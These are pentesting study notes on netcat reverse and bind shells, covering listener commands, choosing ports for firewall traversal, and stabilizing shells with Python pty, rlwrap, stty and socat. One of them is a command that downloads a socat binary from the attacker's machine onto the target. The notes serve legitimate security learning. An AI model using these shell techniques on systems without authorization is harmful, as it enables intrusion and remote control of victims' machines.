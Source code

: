 **Netcat for Pentesters - Key Commands and Concepts:**

**Netcat Overview:**

**Netcat**, often referred to as the "Swiss Army Knife" for networking, is a versatile command-line tool used for reading and writing data across network connections. It is a fundamental utility in a penetration tester's toolkit, particularly for tasks related to networking. Netcat can perform a wide range of tasks, including port scanning, file transfer, and most importantly, creating various types of shell connections. In the context of reverse and bind shells, Netcat serves as a crucial tool for establishing connections between attacker and target systems.

1. **Netcat Basics:**
   - **Tool Significance:** Netcat is a fundamental tool for network penetration testing.
  
2. **Reverse Shells:**
   - **Components Required:**
      - Shellcode
      - Listener
   - **Listener Syntax:**
     ```bash
     nc -lvnp <port-number>
     ```
      - `-l`: Listener mode
      - `-v`: Verbose output
      - `-n`: Disable host name resolution
      - `-p`: Specify the port
   - **Example:**
     ```bash
     sudo nc -lvnp 443
     ```

3. **Choosing Ports:**
   - Any port can be used, but common choices are 80, 443, or 53.
   - Ports below 1024 may require `sudo` for listener initiation.

4. **Bind Shells:**
   - **Connection Syntax:**
     ```bash
     nc <target-ip> <chosen-port>
     ```
   - Netcat initiates an outbound connection to the specified target on the chosen port.

5. **Considerations:**
   - Understand the need for shellcode in reverse shells.
   - Consider using well-known ports for better firewall traversal.

**Stabilizing Netcat Shells - Key Techniques:**

1. **Python Technique:**
   - **Applicability:** Linux systems with Python installed.
   - **Steps:**
      1. Execute: `python -c 'import pty;pty.spawn("/bin/bash")'`
      2. Set terminal commands: `export TERM=xterm`
      3. Background shell: `Ctrl + Z`
      4. In the terminal: `stty raw -echo; fg`
   - **Note:** Reset the terminal with `reset` if the shell dies.

2. **rlwrap Technique:**
   - **Tool Requirement:** Install `rlwrap` on Kali: `sudo apt install rlwrap`.
   - **Listener Syntax:**
     ```bash
     rlwrap nc -lvnp <port>
     ```
   - **Usage:** Provides enhanced shell features immediately. Useful for stabilizing Windows shells.
   - **Manual Stabilization:** Background shell with `Ctrl + Z`, then use `stty raw -echo; fg` to stabilize and re-enter.

3. **Socat Technique:**
   - **Limitation:** Linux targets only; not applicable to Windows.
   - **Steps:**
      - Transfer static compiled Socat binary to target.
      - Download using netcat shell: `curl <LOCAL-IP>/socat -O /tmp/socat`.
      - Details of syntax for sending/receiving shells with Socat covered in upcoming tasks.

4. **Terminal TTY Size Adjustment:**
   - **Purpose:** Necessary for using programs like text editors in reverse or bind shells.
   - **Steps:**
      1. Open another terminal: `stty -a` to get terminal size details.
      2. In the shell, set rows and columns: `stty rows <number>` and `stty cols <number>`.

**Additional Note:**
   - Ensure terminal tty size adjustment for programs relying on accurate width and height information.

**Recommendation:**
   - Understanding these stabilization techniques is crucial for effective interaction with netcat shells and improving their stability for various scenarios.